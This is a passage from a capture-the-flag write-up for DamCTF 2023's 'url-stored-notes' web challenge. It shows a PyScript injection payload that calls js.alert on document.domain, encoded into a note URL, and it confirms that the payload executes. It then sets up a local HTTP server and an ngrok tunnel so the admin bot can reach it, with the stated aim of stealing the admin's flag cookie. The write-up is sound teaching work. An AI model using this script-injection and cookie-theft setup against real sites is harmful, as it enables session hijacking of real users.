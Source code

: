 **The reason I pick the `js` library is I saw that library executing JavaScript code in `index.html`:**
```html
<py-script id="python">
import js
    [...]
        js.createNoteElement(note['prompt'], note['answer'], note['tag'])
</py-script>
```

```shell
┌[siunam♥earth]-(~/ctf/DamCTF-2023/web/url-stored-notes)-[2023.04.08|17:12:32(HKT)]
└> python3 encode_notes.py
Before encoded: [{"prompt":"import js;print(js.alert(document.domain))","answer":"print(2+2)","tag":"py-script"}]
After encoded: /Td6WFoAAATm1rRGAgAhARYAAAB0L+Wj4ABgAFhdAC2ewEcDz40ozKl1G8Hi7NGQkjZaYHM2dmMBzBphloFBW+N1QbCCK6FSx07eGLl5DJ/gWJK17vQsRy+t556giyKCwChZU/DRBVebTHpT+3PulRjt0mh8lgAAk8cicCjHaVIAAXRhF1hgUR+2830BAAAAAARZWg==
After decoded: [{'prompt': 'import js;print(js.alert(document.domain))', 'answer': 'print(2+2)', 'tag': 'py-script'}]
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/DamCTF-2023/images/Pasted%20image%2020230408171345.png)

Yes!!

**Let's get the admin's flag's cookie!!**

- Setup a web server:

```shell
┌[siunam♥earth]-(~/ctf/DamCTF-2023/web/url-stored-notes)-[2023.04.08|17:03:10(HKT)]
└> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Since we're not connecting to the challenge's network, we need to do a port fowarding, so that the admin bot can reach our web server.

- Port forwarding:

```shell
┌[siunam♥earth]-(~/ctf/DamCTF-2023/web/url-stored-notes)-[2023.04.08|17:13:14(HKT)]
└> ngrok http 8000
[...]
Forwarding                    https://4726-{Redacted}.ngrok-free.app -> http://localhost:8000
```
